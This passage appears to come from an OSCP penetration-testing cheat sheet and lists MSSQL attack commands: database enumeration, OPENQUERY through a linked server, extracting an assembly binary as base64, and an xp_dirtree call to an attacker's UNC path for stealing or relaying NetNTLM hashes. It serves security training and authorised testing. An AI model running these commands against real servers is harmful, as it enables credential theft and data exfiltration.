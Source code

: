 ##### Show Database Content

```c
1> SELECT name FROM master.sys.databases
2> go
```

##### [](https://github.com/0xsyr0/OSCP#openquery)OPENQUERY

```c
1> select * from openquery("web\clients", 'select name from master.sys.databases');
2> go
```

```c
1> select * from openquery("web\clients", 'select name from clients.sys.objects');
2> go
```

##### [](https://github.com/0xsyr0/OSCP#binary-extraction-as-base64)Binary Extraction as Base64

```c
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

##### [](https://github.com/0xsyr0/OSCP#steal-netntlm-hash--relay-attack)Steal NetNTLM Hash / Relay Attack

```c
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```